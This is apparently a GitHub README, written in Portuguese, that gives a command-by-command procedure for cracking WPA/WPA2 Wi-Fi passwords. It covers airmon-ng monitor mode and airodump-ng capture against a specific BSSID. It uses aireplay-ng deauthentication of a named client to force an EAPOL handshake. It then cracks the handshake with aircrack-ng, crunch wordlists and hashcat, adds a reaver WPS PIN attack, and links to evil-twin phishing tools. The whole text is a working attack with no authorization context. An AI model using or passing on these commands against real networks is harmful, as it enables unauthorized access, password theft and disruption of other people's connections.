 # Crack_WIFI
Crack_WIFI <br>
 <br>
airmon-ng check wlan0  <br>
airmon-ng check kill  <br>
airmon-ng start wlan0  <br>
airodump-ng wlan0 -a --band abg  <br>
airodump-ng -c 11 -d E4:C0:E2:1C:6E:6B -a --band abg wlan0  <br>
airodump-ng -c 11 -d E4:C0:E2:1C:6E:6B -a --band abg -w captura wlan0  <br>
aireplay-ng --deauth 0 -a E4:C0:E2:1C:6E:6B -c 28:87:BA:3A:AF:CF wlan0  <br><br>
<b> APENAS DEPOIS DE APARECER NO CAMPO NOTES EAPOL, PARA PODER PARAR A CAPTURA  </b> <br><br>
![IMAGE01](https://github.com/fernandomxm/Crack_WIFI/blob/main/image01.png) 
![IMAGE02](https://github.com/fernandomxm/Crack_WIFI/blob/main/wpa-4-way-handshake-workflow.png) <br> <br>
PODE SER UTILIZADO: wpaclean, para gerar o arquivo .cap "LIMPO", apenas com EAPOL KEY: <br>
<b>wpaclean clean.cap captura.cap</b>  <br><br>
<b> aircrack-ng -w /usr/share/wordlists/rockyou.txt -b E4:C0:E2:1C:6E:6B clean.cap  </b> <br>
<br>
Pode ser utilizada uma automatização com o crunch (On-the-Fly Wordlist Generation): <br> <br>
<b> crunch 8 10 -f /usr/share/crunch/charset.lst mixalpha | aircrack-ng -b E4:C0:E2:1C:6E:6B -w - clean.cap </b> <br> <br>
Dessa forma, ele ira gerar uma lista gigante de de teste, sem consumir espaço em disco. <br> <br>
Para gerar a wordlist pode ser usado o: <br>
crunch 8 10 -f /usr/share/crunch/charset.lst mixalpha -o wordlist.txt <br>
<br>
<b> apt -y install seclists </b> <br>
/usr/share/seclists/ <br>
/usr/share/wordlists/rockyou.txt <br>
Weakpass, CrackStation, Pastebin <br> <br>
Organizando arquivo wordlist customizado: <br>
<b> sort wordlist.txt | uniq -u > wordlist_final.txt </b> <br> <br>
O parâmetro PWR é o sinal WIFI. Quando mais perto de 0, melhor o sinal.  <br> <br> <br>
Pode ser utilizado o hashcat para quebrar a senha: https://hashcat.net/cap2hashcat/ <br>
Convertendo clean.cap para arquivo do hashcat e rodando o hashcat externamente em outro servidor <br> 
hashcat -m 22000 -w 3 arquivo_convertido wordlist.txt <br> <br> <br>
<b> FORMA VIA WPS SEM USO DE WORDLIST (Isso só funciona se o roteador estiver configurado para não usar PBC (Push Button Authentication) </b> <br>
wash --interface wlan0 <br>
reaver --bssid E4:C0:E2:1C:6E:6B  --channel 10 --interface wlan0 -vvv --no-associate <br>
aireplay-ng --fakeauth 30 -a E4:C0:E2:1C:6E:6B -h mac_wlan0 wlan0  <br> <br>
<b> Avaliar linha com: WPA PSK: </b>
</br> </br>
https://github.com/PNPtutorials/fluxion/fluxion </br>
https://github.com/PNPtutorials/wifiphisher </br>
https://github.com/kernel-64/linset </br>
https://github.com/chunkingz/linsetmv1-2 </br>
